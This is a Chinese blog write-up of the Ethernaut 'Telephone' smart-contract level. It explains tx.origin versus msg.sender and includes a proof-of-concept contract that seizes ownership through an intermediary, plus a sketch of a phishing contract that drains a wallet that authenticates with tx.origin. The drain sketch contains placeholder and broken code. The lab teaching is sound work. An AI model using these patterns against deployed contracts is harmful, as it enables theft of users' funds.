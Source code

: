 ```yaml
---
title: '使用tx.origin身份验证的问题'
date: 2022-12-8 18:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'

---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第四关Telephone  思路与POC

##### 目标: 更改合约的拥有者

#### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
  //定位flag代码, 问题在tx.origin这个全局变量. 
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

#### 这关实际是想说明tx.origin和msg.sender两个全局变量的区别

##### tx.origin：记录原始交易发起者的地址

##### msg.sender：记录最新一次交易发起者的地址

##### poc思路:point_right:：要使原始交易发起者地址与最近一次交易发起者地址不同只需要加中间层，即中间合约代替我们的钱包地址发起交易

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract fish {
//在中间合约发起交易
    Telephone tel = Telephone(0xe2eB2bd7702D93f7d2Daa5b1362819421D186542);
   function changeOwner(address owner_) public{
        tel.changeOwner(owner_);
   }
}
```

#### 其实使用tx.origin用作鉴权往往能够导致钓鱼攻击 examle :

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;
// THIS CONTRACT CONTAINS A BUG - DO NOT USE
contract TxUserWallet {
    address owner;

    constructor() {
        owner = msg.sender;
    }

    function transferTo(address payable dest, uint amount) public {
        // 校验只有合约拥有者才能转账,但是使用tx.origin校验(无法验证是否有恶意合约中间调用)
        require(tx.origin == owner);
        dest.transfer(amount);
    }
}


contract TxAttackWallet {
    address payable owner;
 TxUserWallet txu = TxUserWallet(address....)
    constructor() {
        owner = payable(msg.sender);
    }
    //只要接收到的是TxUserWallet合约的拥有者发起的交易 那么此处调用transfer方法是可以通过校验的
    receive() external payable {
        TxUserWallet.transferTo(owner, msg.sender.balance);
    }
}
```

